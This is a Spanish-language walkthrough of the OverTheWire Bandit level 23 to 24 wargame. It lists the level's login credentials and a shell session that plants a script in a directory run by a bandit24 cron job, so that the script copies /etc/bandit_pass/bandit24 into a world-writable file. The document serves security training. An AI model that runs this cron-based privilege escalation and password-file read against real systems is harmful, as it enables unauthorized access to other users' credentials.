 ## Objetivo 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel 
bandit23 
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
## Solución 

```bash
bandit23@bandit:~$ whoami
bandit23
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mktemp -d
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ chmod 777 /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ cd /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ echo "cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password" > script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ touch password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4026 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rw-rw-r--    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4027 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ pwd
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4029 root     root     11063296 Sep  4 16:37 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:09 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:24 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:37 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$
```

## Notas Adicionales 
mktemp -d - Crea una carpeta temporal dentro de /tmp

### Referencias

